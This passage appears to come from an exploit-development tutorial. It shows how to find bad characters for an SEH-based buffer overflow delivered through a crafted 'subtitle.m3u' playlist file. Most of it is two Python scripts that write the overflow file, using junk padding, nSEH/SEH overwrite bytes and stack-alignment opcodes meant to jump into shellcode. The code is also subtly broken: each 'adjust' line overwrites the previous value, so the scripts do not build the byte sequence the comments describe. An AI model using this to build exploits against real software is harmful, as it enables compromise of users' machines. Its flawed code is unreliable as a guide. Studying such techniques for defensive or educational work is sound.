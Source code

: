 

And would you believe it. We still have an error. Testing out \\x09 and \\x0a by themselves should reveal that \\x0a is another bad character. Once you are done you can take \\x0a and replace the other characters back in.



> #!/usr/bin/python
> junk  = "\\x41" \* 4078
> nseh = "\\x61\\x62"
> seh = "\\xeb\\x46" \* 2
> adjust = "\\x53" # PUSH EBX
> adjust = "\\x62" # NOP padding to absorb the \\x00's that will be added
>                          # after the \\x53 instruction in memory
> adjust = "\\x58" # POP EAX  to make eax point to the beginning of our shellcode.
> adjust = "\\x62" # NOP padding
> adjust = "\\x50" # PUSH EAX to push eax to the stack...
> adjust = "\\x62" # NOP padding
> adjust = "\\xc3" # RETN to go to the beginning of the shellcode....
> buffer = "\\x62" \* 12
> junk2  =  "\\x09\\x0b\\x0c\\x0d\\x0e"
> exploit = junk + nseh + seh + adjust + buffer + junk2
> handler = open ("subtitle.m3u", "w")
> handler.write(exploit)
> handler.close()

Which returns an error yet again. Try it with just \\x0b and you will find its not that one? \\x0d?



> #!/usr/bin/python
> junk  = "\\x41" \* 4078
> nseh = "\\x61\\x62"
> seh = "\\xeb\\x46" \* 2
> adjust = "\\x53" # PUSH EBX
> adjust = "\\x62" # NOP padding to absorb the \\x00's that will be added
>                          # after the \\x53 instruction in memory
> adjust = "\\x58" # POP EAX  to make eax point to the beginning of our shellcode.
> adjust = "\\x62" # NOP padding
> adjust = "\\x50" # PUSH EAX to push eax to the stack...
> adjust = "\\x62" # NOP padding
> adjust = "\\xc3" # RETN to go to the beginning of the shellcode....
> buffer = "\\x62" \* 12
> junk2  =  "\\x0d" 



> exploit = junk + nseh + seh + adjust + buffer + junk2
> handler = open ("subtitle.m3u", "w")
> handler.write(exploit)
> handler.close()

Yep thats the one. So we also can add \\x0d to our list of bad characters. There are no more bad characters for that line so you can place the remaining characters from that line back and you should see them all appear in memory correctly.
